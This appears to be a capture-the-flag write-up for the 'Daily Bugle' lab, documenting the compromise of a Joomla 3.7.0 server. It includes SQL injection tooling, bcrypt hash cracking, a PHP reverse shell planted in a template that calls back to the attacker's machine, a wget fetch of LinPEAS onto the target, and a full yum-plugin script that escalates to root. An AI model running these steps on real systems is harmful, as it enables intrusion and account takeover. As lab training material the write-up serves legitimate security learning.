 A quick autorecon scan reveals a number of open ports. We confirm with an nmap scan.
 
![a6ff4cf9e9f985bd7cb1e2491264d1a9.png](/Daily%20Bugle/_resources/a6ff4cf9e9f985bd7cb1e2491264d1a9.png)

![717a1c54c37a686bbed4a6e2feecea66.png](/Daily%20Bugle/_resources/717a1c54c37a686bbed4a6e2feecea66.png)
 
Let's start enumerating the web server. Along with some shocking news, we find a login form.
 
![f8ba35371648d4632c5f5e8b1f779232.png](/Daily%20Bugle/_resources/f8ba35371648d4632c5f5e8b1f779232.png)
 
Examining the `robots.txt` file from our autorecon output (or just navigating to the `/robots.txt` directory) reveals some potentially interesting directories.

```txt
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Let's check the administrator directory. We find a Joomla login form.
 
![556cdf785bd0990447c6209117bb1981.png](/Daily%20Bugle/_resources/556cdf785bd0990447c6209117bb1981.png)
 
We can get more information using the joomscan tool. After installing joomscan, we use `joomscan -ec -u 10.10.53.236`.  The `-ec` flag tells joomscan to enumerate components. Alternatively, we can look around the webpage a bit more. Some Googling tells us that the Joomla version number can be found at `/language/en-GB/en-GB.xml`.
 
![6fc698e1b5863693652d9c2be6164516.png](/Daily%20Bugle/_resources/6fc698e1b5863693652d9c2be6164516.png)
 
Let's also run a gobuster scan to check for any interesting directories.
```bash
gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
```
 
![d5f652010da5f71b2afb2ea5073046c0.png](/Daily%20Bugle/_resources/d5f652010da5f71b2afb2ea5073046c0.png)
 
The `README.txt` files gives us some info about Joomla, including the version number (which we found above through a slightly unconventional method).

<br>

# Exploitation

Since we have a service and a version number, we can begin looking for a vulnerability to exploit. Searchsploit tells us that Joomla 3.7.0 is vulnerable to SQL injection.
 
![dbf7b5f5093d2e5e69069c09c2de9107.png](/Daily%20Bugle/_resources/dbf7b5f5093d2e5e69069c09c2de9107.png)
 
We use ``sqlmap -u http://10.10.50.236 --forms --crawl=10``, selecting all default options along the way. After a while, we don't get any results. One option is to do the SQLi manually; see [this link](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) for a nice writeup.

Some Googling tells us that we can also make use of [this script](https://github.com/XiphosResearch/exploits/tree/master/Joomblah), which is an exploit for Joomla 3.7.0. Run `python2.7 joomblah.py http://10.10.50.236`. (Note: I had to specifically use Python 2.7 here, as the script wasn't running properly.)
 
![1bd76d5497480cfbd64aa3c8feafba9a.png](/Daily%20Bugle/_resources/1bd76d5497480cfbd64aa3c8feafba9a.png)
 
We get a few usernames (one of which we already knew of from the webpage) together with a hash. Let's crack it with hashcat. I typically have some trouble using hashcat on a VM,  so I follow the methodology [here](https://samsclass.info/123/proj10/p12-hashcat.htm) to use an old version of hashcat which my VM could run.

```bash
/home/kali/hash/hashcat-cli32.bin -m 3200 -a 0 -o found.txt hash.txt /usr/share/wordlists/rockyou.txt
```

We specify the path to the binary, and we use:
- `-m` to specify the mode. In this case, I chose 3200 according the list of [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes).
- `-a` specifies the attack mode. 0 corresponds to a dictionary attack.
- `-o` specifies the output file.
- We then specify the file with our hashes (in this case just one), and the path to the wordlist. In this case, we're using `rockyou.txt`.

After exactly 1h 15m, the hash was cracked. This would have gone faster if I had used my Windows host machine to run hashcat, as opposed to my Kali VM image.
 
![afd68c9a45b3e5ad65d0a91905a165b4.png](/Daily%20Bugle/_resources/afd68c9a45b3e5ad65d0a91905a165b4.png)

![35d0c711d7e5c2e106a9637df095cc1a.png](/Daily%20Bugle/_resources/35d0c711d7e5c2e106a9637df095cc1a.png)
 
Now we can log in to Jonah's Joomla account from the administrator login page we found earlier.
 
![901e4e8b85712ca547bd3dc0b82f8d01.png](/Daily%20Bugle/_resources/901e4e8b85712ca547bd3dc0b82f8d01.png)
 
Looking around, we eventually find a page which allows us to edit the templates associated with the Joomla CMS. If we click on the Beez3 template, we see a list of php file which we can potentially exploit. Let's look at the /index.php file.
 
![2efd186e9ae789e0f017c44337ab9493.png](/Daily%20Bugle/_resources/2efd186e9ae789e0f017c44337ab9493.png)

![d9052a8b13b38bdca3e0b2f3d269a9b8.png](/Daily%20Bugle/_resources/d9052a8b13b38bdca3e0b2f3d269a9b8.png)
 
We will use the standard [Pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We copy and paste the shell code into the /index.php file, making sure to use our attacking machine IP and a port of our choice.
 
![1fb736dbb57acf3a7ab718fb45c1e930.png](/Daily%20Bugle/_resources/1fb736dbb57acf3a7ab718fb45c1e930.png)
 
Now set up a netcat listener and navigate to `http://10.10.76.10/templates/beez3/index.php` to catch the reverse shell, giving us initial access.
 
![cd460351fcc4cf08333b8354fe9269ac.png](/Daily%20Bugle/_resources/cd460351fcc4cf08333b8354fe9269ac.png)
 
<br>

# Post-exploitation

Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.
 
![83e467cfd5af8ddef71a1a5ca54f5986.png](:/ef6fef1754134cef922e9b441d0216f3)
 
At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.
 
![def636cb01192ace178966359de736d8.png](:/ba4a4c8d22f5415d9a1d9221bfed94ab)
 
Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.
 
![c394d08ab7b3fd4ae59b407365d2a84b.png](:/49124ee91b074e2db96e3c2fd8c77583)
 
Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. We find a password in a public PHP config file.
 
![1a34e49fbe938a3d2f25ec3018589374.png](:/a6a1fd03e1814f36bcdd8099d535919d)
 
Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.
 
![82bbb48b299ce44bf1c3993fad8b731e.png](:/5cc7bd5d61604f0e8e7e8296088f3c80)
 
Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.
 
![23809e8f1de19246829b7a180af6c061.png](:/2767ac94131442fc826577a098d2c331)
 
Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
  
![ad5d66d1a634cc31982f20b70c324841.png](:/cdd46c7f57164638b8ecda9eed6472e9)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](:/0301af5c6f82486da92af6fb437637af)

</center>